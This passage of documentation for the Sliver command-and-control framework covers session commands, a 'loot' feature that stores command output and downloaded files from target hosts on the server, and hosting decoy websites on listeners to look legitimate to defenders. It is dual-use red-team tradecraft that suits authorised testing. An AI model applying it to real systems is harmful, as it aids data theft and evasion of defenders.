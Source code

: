 - execute

Running an interactive shell

- shell

Rename a session

- rename

View and kill running listeners

- jobs

## Loot

Certain commands such as execute or download have a `loot` flag which will store command output or the file being downloaded on the sliver server. This can be handy to store sensitive files or large command outputs. The contents of this store can then be viewed using the loot command.

```bash
[server] sliver (TIRED_GIRAFFE) > execute --loot pwd

[*] Tasked beacon TIRED_GIRAFFE (8972b121)

[+] TIRED_GIRAFFE completed task 8972b121

[*] Successfully looted execute_test.local_pwd_20230424233646.log ([execute] pwd on test.local (20230424233646)) (ID: 4442b117-136c-4736-bf05-c36904360999)
[*] Command executed successfully

[server] sliver (TIRED_GIRAFFE) > loot

Type  Name                                                      File Name                                              UUID
====  ====                                                      =========                                              ====
File  [execute] pwd on test.local (20230424233646)  test.local_pwd_20230424233646.log  4442b117-136c-4736-bf05-c36904360999

[server] sliver (TIRED_GIRAFFE) > loot fetch

? Select a piece of loot: [execute] pwd on test.local (20230424233646)  execute_test.local_pwd_20230424233646.log  LOOT_FILE  4442b117-136c-4736-bf05-c36904360999

File Name: execute_test.local_pwd_20230424233646.log

Output (stdout):
/Users/test
```

## Sliver websites

Websites are used to add another layer of obfuscation in your listeners, the idea is to host static content on your listener url that should be retrieved by curious blue teamers and hopefully help you seem more legitimate.
